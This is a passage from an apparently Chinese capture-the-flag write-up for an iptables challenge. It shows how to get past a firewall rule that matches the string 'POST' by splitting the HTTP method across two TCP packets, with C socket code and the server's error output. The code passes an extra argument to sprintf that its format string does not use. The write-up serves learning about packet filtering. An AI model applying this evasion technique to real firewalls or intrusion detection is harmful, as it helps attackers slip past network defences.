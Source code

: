 **某些网络环境下本题可能无法正常解出，你可以使用下面提供的 OpenVPN，并将上面的 IP 地址替换为 `192.168.23.1` 尝试解题，端口号不变。**

- OpenVPN 配置文件（请从比赛平台上获取）

点击下方的「打开/下载题目」按钮，下载附件。附件可以用于在 Docker 中复现题目的防火墙环境，其中 `main.go` 并非题目核心内容，仅供参考和测试，与实际运行的程序有所不同。

**[打开/下载题目](files/iptables-flag.tar.gz)**

## 题解

这题依然是 @zzh1996 的 idea，我负责把细节考虑清楚然后实现。和前两年的零号端口类似，出题思路是让大家学习各种包头格式，在这里做文章。所以这里一个花絮是第一小问实际上是最后凑数出出来的，因为它不涉及任何「在数据包头部做文章」，也只需要相对基础的知识就能解出来。

题目已经给出了所有 iptables 规则了，附件只是方便调试而不是必须的。三道小题都要从理解 iptables 规则开始，再考虑绕过的方法。

### 我的 POST

第一小题的规则比较简单易懂，利用字符串匹配，如果发现你的数据包里有大写的 POST，就直接 reset。一个很直观的想法是改一下大小写，但是其实你用附件提供的 `main.go` 试一下就会发现 Go 的 HTTP server 对 HTTP method 的处理是大小写敏感的，所以这个方法行不通。正确的解法是手动拆包，例如第一个包先发送一个 P，第二个包再发送 `OST / HTTP/1.1` 等后续内容，这样就能绕过了。

看着简单，我们来动手实践一下：

```c
char buf[1024];
strcpy(buf, "P");
int buflen = 1;
if (write(fd, buf, buflen) != buflen) {
    perror("write");
    goto cleanup;
}
int yes = 1;
if (setsockopt(fd, IPPROTO_TCP, TCP_NODELAY, &yes, sizeof(yes)) < 0) {
    perror("setsockopt");
    goto cleanup;
}

const char token[] = "114514:asdfgh==";
const int token_len = strlen(token);
buflen = sprintf(buf, "OST / HTTP/1.1\r\n\r\n%s", token_len, token);
if (write(fd, buf, buflen) != buflen) {
    perror("write");
    goto cleanup;
}
if (shutdown(fd, SHUT_WR) != 0) {
    perror("shutdown");
    goto cleanup;
}
```

输出：

```text
HTTP/1.1 400 Bad Request: missing required Host header
Content-Type: text/plain; charset=utf-8
Connection: close

400 Bad Request: missing required Host header
```
